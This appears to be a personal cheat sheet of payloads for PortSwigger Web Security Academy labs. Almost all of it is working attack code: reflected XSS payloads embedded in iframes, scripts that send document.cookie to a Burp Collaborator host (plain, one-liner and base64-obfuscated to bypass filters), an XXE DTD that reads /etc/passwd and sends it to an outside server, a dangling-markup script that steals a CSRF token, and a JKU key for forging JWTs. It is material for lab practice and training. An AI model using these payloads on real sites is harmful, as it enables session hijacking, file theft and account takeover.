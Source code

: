 Simple Reflected XSS in iFrame:

`<iframe src="https://<VICTIM_SITE>.web-security-academy.net/?find=%22-alert(1)}//">`

---

Steal cookie:
- can be used in xss, web cache poisoning 

```JavaScript
<script>
fetch('https://<YOUR_BURP_COLLAB>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Oneliner:
`<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Or

```js
var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);
```

Above in iframe:
```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=%22-var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);">
```

B64 encode the js and include in iframe for character restriction bypass:

```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=test%22-eval(atob('dmFyIGkgPSBuZXcgSW1hZ2UoKTtpLnNyYz0iLy9iZ3ZueTd4N3JiZ3p0c3RmaGV1czlrZDB4cjNtcmIuYnVycGNvbGxhYm9yYXRvci5uZXQ/cT0iK2RvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGkpOw=='))//">
```

---

XXE dtd file:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<YOUR_BURP_COLLAB>.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Access in app by finding an xxe vuln and using:
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<YOUR_EXPLOIT_SERVER>.web-security-academy.net/test.dtd"> %xxe;]>
```

---

Script used in "*Reflected XSS protected by CSP, with dangling markup attack*" to get the victim's CSRF token

```js
<script>
location='https://<VICTIM_SITE>.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//<YOUR_BURP_COLLAB>.burpcollaborator.net?';
</script> 
```

Take that csrf token and put it into a csrf generated request for changing email. Put that code into the exploit server and send to victim. 

---
JKU 
```jwt
{ "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "b228cfa4-a5e1-4eb1-b97e-982123fcfa7b", "n": "sGPB1ucACzQv2XpzErcWC19Vv4GRDoIEOegGPqX-_AhfEqK1SoirpvzH6TaWwdX5JQ6oq-gFaRAFp9jrU6ehPCfcaSFBh3KbQQIts5okUDNwv-w9BxFdsywkDsixxYFNWkuYcYeRhx6GB1CnR5HA9RKJfjYP1jKOd8ADIYHT_q4TA-vJ2Q0H8_LZezTsfAAil40YgRn6wCnr_5ysMY9wMwwFUR8abpHEoFjCjIUGm19NfGyeDrEsNSbk8rIe9X7atBhyJGeVXdDcuYQl7vZMYl_7YssYTmpPjcvX08ay7WgIZteZJb_C9OF7aVxxyh9EXJqz0KIOt4dC7ZybVTw9GQ" } ] }
```
---
